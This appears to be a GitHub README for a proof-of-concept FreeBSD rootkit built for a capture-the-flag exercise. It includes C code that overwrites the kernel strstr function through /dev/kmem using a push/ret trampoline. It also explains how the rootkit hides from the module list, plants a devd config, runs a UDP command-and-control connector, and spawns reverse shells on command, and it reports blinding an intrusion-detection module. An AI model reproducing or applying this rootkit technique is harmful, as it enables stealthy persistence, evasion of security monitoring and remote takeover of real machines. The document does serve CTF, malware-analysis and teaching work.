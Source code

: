# rkit

### DISCLAIMER: FOR EDUCATIONAL AND INFORMATIONAL PURPOSES ONLY

This project is for malware analysts and for creator of CTF or cyber security exercises, with this builder you can build your custom rootkit  for your exercise

**I do not take any responsibility for usage of this project**

rkit is PoC rootkit for latest freebsd, this rootkit is hooking strstr function in kernel via rewriting kernel memory at run, so it will redirect function at start via **push** **ret** to our kernel function:

```c
        buffer[0] = push_opcode; 
        buffer[1] = ret_bytes[0]; 
        buffer[2] = ret_bytes[1]; 
        buffer[3] = ret_bytes[2]; 
        buffer[4] = ret_bytes[3]; 
        buffer[5] = ret_opcode; 
        if (lseek(fd, offset, SEEK_SET) == (off_t)-1) {
        	close(fd);
        	return;
        }

        if (write(fd, buffer, 6) != 1) {
        	close(fd);
        	return;
        }
```

fd in this case is:

```c
fd = open("/dev/kmem", O_RDWR);
```

this is done in userspace for easier access, but it should be possible in kernel itself too.

## How this work?

First we need to parse kernel /boot/kernel/kernel as elf, from this we can get symbols and addresses, here we find strstr symbol and then we seek to that address in kernel memory /dev/kmem and we will rewrite bytes at start for our push kernel_function; ret; 

When anything call strstr it will now return to our function where we can do some functionality, in our case ignoring some strings. after our functionality we have to return to original place, but since we rewritten first bytes we need to call them from our kernel module as inline assembly and then jump there, also we need to change return address to our function:

```c
/* rewritten bytes
ffffffff80c498d0: 55                            pushq   %rbp
ffffffff80c498d1: 48 89 e5                      movq    %rsp, %rbp
ffffffff80c498d4: 41 57                         pushq   %r15
*/
char *hex_address = "0xffffffff80c498d6"; // strstr address
int (*func_ptr)(void); 

sscanf(hex_address, "%p", (int **)&func_ptr);
void *return_address = &&return_here; 

for (size_t i = 0; i < arraySize; i++) {
        if (!strcmp(stringArray[i], s1) || !strcmp(stringArray[i], s2))
                return NULL; // got match
}

__asm__(
        "pushq %0\n\t"                  // Save return address
        "movq %2, %%rdi\n\t"            // First argument (const char *s1)
        "movq %3, %%rsi\n\t"            // Second argument (const char *s2)
        "pushq %%rbp\n\t"               // Push %rbp onto the stack
        "movq %%rsp, %%rbp\n\t"         // Move the value of %rsp to %rbp
        "pushq %%r15\n\t"               // save r15
        "jmp *%1\n\t"                   // jump to func_ptr
        :
        : "r"(return_address), "r"(func_ptr), "r"(s1), "r"(s2)
        : "memory", "%rbp", "%rsi", "%r15"                      // Clobbered registers
);

return_here:
        __asm__("movq %%rax, %0" : "=r" (result) : : "%rax");
        return result;
```

we can get this strstr address from symbols, from multiple reboots this address did not change. You can get this address with simple modification of helper.c that instead of rewriting bytes on match it will print its address

From my testing not all functions work properly and need to be tested

## Setup

we have custom.c, helper.c and helper.conf

custom.c is our kernel module that contain our modified strstr, helper.c is userspace program that will help with our kernel memory rewriting, and helper.conf is devd conf that we place into /dev/devd/ so our kernel module can notify it and trigger rewriting

## Kernel module

Our kernel module contain udp connector that connects to localhost 1337, here we can send commands for hooking or spawning reverse shell.

Execution flow:

- first we hide ourself from module list
- then we check if helper.conf exists, if not we write it to /etc/devd, then we also write helping script for reverse shell and we reboot
- if we have those files, connector is started in kernel thread
  - this connector infinitely connects to defined address (in our case localhost). I found out problem that when we dont have server open it will crash, this could be fixed in future :)
- then we wait for specific commands:
  - hook strstr - hooks strstr function with our helper
  - add "data" - adds data to array for ignoring in strstr
  - rev ip=127.0.0.1 port=4242 - creates reverse shell to that address and port

Our C2 nc with triggering hook:

![1](images/1.png)

Check of bytes at strstr memory address before and after:

![2](images/2.png)

I tested this PoC on kernel module i written for searching IOC in network (so simple module that log every ip that create connection and compare it to list of malicious ip), after hooking strstr even when ip should matched it did not trigger message that should inform admin about malicious communication.

This PoC was part of CTF Cybergame 2024